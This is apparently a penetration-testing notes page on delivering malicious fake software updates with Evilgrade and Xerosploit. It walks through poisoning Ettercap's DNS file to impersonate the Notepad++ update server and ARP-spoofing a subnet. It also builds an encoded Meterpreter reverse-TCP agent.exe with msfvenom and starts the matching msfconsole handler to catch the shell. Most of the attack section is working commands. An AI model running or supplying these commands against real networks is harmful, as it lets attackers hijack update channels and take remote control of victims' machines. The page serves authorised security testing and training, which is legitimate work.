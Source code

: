 # Malicious Update

#### Presenting the victim with a malicious payload as a software update package.

## IRS-Evilgrade

{% embed url="https://github.com/infobyte/evilgrade" %}

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. It comes with pre-made binaries (agents), a working default configuration for fast pentests, and has it's own WebServer and DNSServer modules. Easy to set up new settings, and has an autoconfiguration when new binary agents are set.

#### This framework comes into play when the attacker is able to make hostname redirections (manipulation of victim's dns traffic), and such thing can be done on 2 scenarios:

**Internal scenery:**

* Internal DNS access
* ARP spoofing
* DNS Cache Poisoning
* DHCP spoofing
* TCP hijacking
* Wi-Fi Access Point impersonation

**External scenery:**

* Internal DNS access
* DNS Cache Poisoning

#### installation

```
apt install irs-evilgrade
evilgrade
```

#### start/stop web and DNS server

```
evilgrade> start
evilgrade> stop
```

#### list available modules

```
evilgrade>show modules
```

#### Configure a specified module

```
evilgrade>conf sunjava
evilgrade(sunjava)>
```

#### Show all VirtualHosts.&#x20;

VirtualHost field contains the domains that our webserver is going to emulate for us.

```
evilgrade>show vhosts
```

#### Show options of current module.&#x20;

**agent:** This is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation (see ADVANCED).

```
evilgrade(sunjava)>show options
```

#### Show status and victims logs

```
evilgrade>show status
```

### Exploitation

we'll look at manipulating the update process of the popular text editor Notepad++. First, we'll use Ettercap to create a MitM attack position and impersonate the notepad-plus.sourceforge.net server used to check for update availability and to deliver the updated software.

Ettercap includes support for manipulating DNS responses, spoofing the DNS response for any hostname you specify in the etter.dns file. On the top of this slide we append to the etter.dns file an A record for "notepad- plus.sourceforge.net," pointing to the attacker at 10.10.10.10

```
echo "notepad-plus.sourceforge.net" A 10.10.10.10" >> /etc/ettercap/etter.dns
```

Next we invoke Ettercap using ARP spoofing to create a MitM attack using the arguments we examined earlier. After Ettercap starts, press "p" to list the available plugins (the list shown on this slide has been trimmed for space). To load the dns\_spoof plugin, which will leverage the etter.dns file to obtain the list of hosts to impersonate, enter the plugin name "dns\_spoof" and press Enter.

```
sudo ettercap -YqM arp:remote /10.10.10.1-254// /10.10.10.1-254//
```

Evilgrade delivers malicious code with local web server

{% hint style="info" %}
Default is agent.exe in isr-evilgrade/agent directory.&#x20;

Replace this file (Notepad clone) or change the "agent" parameter in the module.
{% endhint %}

```
cd /usr/share/irs-evilgrade/agent
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f exe --platform windows -e x86/shikata_ga_nai -a x86 > agent.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.56.1; set lport 8080;exploit"
```

The LHOST argument used by the attacker can be set to a specific IP address to launch the listener on a specific interface, or it can be set to 0.0.0.0 to listen and accept connections on all interfaces. In this example, we take advantage of the msfconsole "-x" argument, which allows us to specify all the arguments on the command line, separated by semicolons. Be sure to include quotes around these arguments, as shown in the example on this page, to prevent the shell from interpreting the semicolons as additional shell commands.

#### run evilgrade and configure notepadplus module:

```
evilgrade
evilgrade> conf notepadplus
evilgrade(notepadplus)>show options

```

![](<../../.gitbook/assets/image (296).png>)

```
evilgrade(notepadplus)>start
```

we invoke the "evilgrade" executable to invoke the handler for the Notepad++ software update process. At the "evilgrade>" prompt, enter "conf notepadplus" to invoke the Notepad++ handler. For any Evilgrade module, running "show options" will display configuration information and options that can be manipulated using the "set" command, such as the filename to an alternative executable to deliver to the attacker. Finally, launch the module by issuing the "start" command, which will invoke the Evilgrade web server.

![](<../../.gitbook/assets/image (276).png>)

Evilgrade will log to standard output the status of client requests for updates, as shown on this slide. The first log entry indicates that the Notepad++ client requested the getDownLoadUrl.php page, which checks for an available update. The second entry indicates the client's request for the executable file to download and install, followed by the delivery of the agent/agent.exe file to the victim.

{% hint style="info" %}
Evilgrade-like techniques are still possible, but the proliferation of HTTPS makes upgrade attacks a little more difficult. If a pen tester notices a MitM situation is possible during an update, they are more likely to create a custom script that performs the replacement, rather than use a framework.
{% endhint %}

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Unownsec&v=nReKwL93Fnk" %}

## Xerosploit

{% embed url="https://github.com/LionSec/xerosploit" %}

Xerosploit is a penetration testing toolkit whose goal is to perform man in the middle attacks for testing purposes. It brings various modules that allow to realise efficient attacks, and also allows to carry out denial of service attacks and port scanning.

### features:

* Port scanning
* Network mapping
* Dos attack
* Html code injection
* Javascript code injection
* Download intercaption and replacement
* Sniffing
* Dns spoofing
* Background audio reproduction
* Images replacement
* Drifnet
* Webpage defacement and more ...

#### installation

```
git clone https://github.com/LionSec/xerosploit
cd xerosploit && sudo python install.py
sudo xerosploit
```

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Neodrix&v=35QUrtZEV9U" %}

## Combine with BeFF and Metasploit

{% embed url="https://sploitech.com/exploiting-tools/how-to-do-advanced-mitm-attacks-with-beef-xerosploit" %}

